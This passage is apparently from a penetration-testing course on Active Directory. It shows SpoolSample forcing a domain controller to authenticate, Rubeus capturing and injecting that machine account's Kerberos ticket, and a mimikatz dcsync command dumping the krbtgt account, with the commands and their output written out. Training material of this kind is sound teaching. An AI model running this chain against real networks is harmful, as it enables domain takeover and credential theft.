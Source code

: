 > Listing 24 - Initiating print spooler change notification

The SpoolSample output is not always accurate, and it may be necessary to run the tool multiple times before the change notification callback takes place.

After waiting a few seconds, we'll switch back to Rubeus, which displays the TGT for the domain controller account.

```
[*] 4/13/2020 2:45:16 PM UTC - Found new TGT:

  User                  :  CDC01$@PROD.CORP1.COM
  StartTime             :  4/13/2020 2:26:32 AM
  EndTime               :  4/13/2020 12:26:32 PM
  RenewTill             :  4/15/2020 8:14:07 AM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    doIFIjCCBR6gAwIBBaEDAgEWooIEIzCCBB9hggQbMIIEF6ADAgEF...

[*] Ticket cache size: 1
```

> Listing 25 - Domain controller machine account TGT is found

We have forced the domain controller machine account to authenticate to us and give us a TGT without any user interaction. Nice!

Dirk-jan Mollema created _krbrelayx_,[2](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5484-2) a Python implementation of this technique. The benefit of this tool is that it does not require execution of Rubeus and Spoolsample on the compromised host as it will execute on the Kali machine.

Now that we've managed to avoid user interaction, we can further improve this technique by avoiding the write to disk. Rubeus monitor outputs the Base64-encoded TGT but it can also inject the ticket into memory with the ptt command.

```
C:\Tools> Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo...
...

[*] Action: Import Ticket
[+] Ticket successfully imported!
```

> Listing 26 - Injecting TGT with Rubeus

With the TGT of the domain controller machine account injected into memory, we can perform actions in the context of that TGT. However, the CDC01$ account is not a local administrator on the domain controller so we cannot directly perform lateral movement with it.

On the other hand, the account has domain replication permissions, which means we can perform dcsync and dump the password hash of any user, including the special _krbtgt_ account.

```
mimikatz # lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
[DC] 'prod.corp1.com' will be the domain
[DC] 'CDC01.prod.corp1.com' will be the DC server
[DC] 'prod\krbtgt' will be the user account

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 4/2/2020 7:09:13 AM
Object Security ID   : S-1-5-21-3776646582-2086779273-4091361643-502
```